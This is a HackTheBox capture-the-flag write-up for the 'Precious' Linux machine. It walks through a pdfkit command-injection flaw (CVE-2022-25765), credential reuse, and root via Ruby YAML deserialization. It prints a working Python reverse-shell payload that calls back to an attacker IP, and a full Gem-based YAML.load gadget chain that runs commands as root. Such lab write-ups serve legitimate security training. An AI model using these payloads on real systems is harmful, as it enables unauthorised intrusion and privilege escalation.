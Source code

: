 ```yaml
---
title: "Precious - HackTheBox"
description: "https://www.hackthebox.com/machines/precious"
summary: "Hack The Box Machine Precious"
date: 2023-09-28
draft: false
tags: ["Linux", "HackTheBox", "Easy", "CTF"]
---
```


------------------------

### About Precious
- Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language.
- It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine.
- After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


### Scanning

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`.

### Foothold

On this page we have **Convert Web Page to PDF** functionality.

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded.

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_.

This version is vulnerable to RCE.

Payload:
```url
http://%20`{command}`
```

we can use this payload to get reverse shell:

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

### Escalating Privileges

we can see two user in /home directory.

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry.

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry.

user can run /opt/update_dependencies.rb as root with sudo.

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml.

payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This will give the root flag.

Happy Hacking
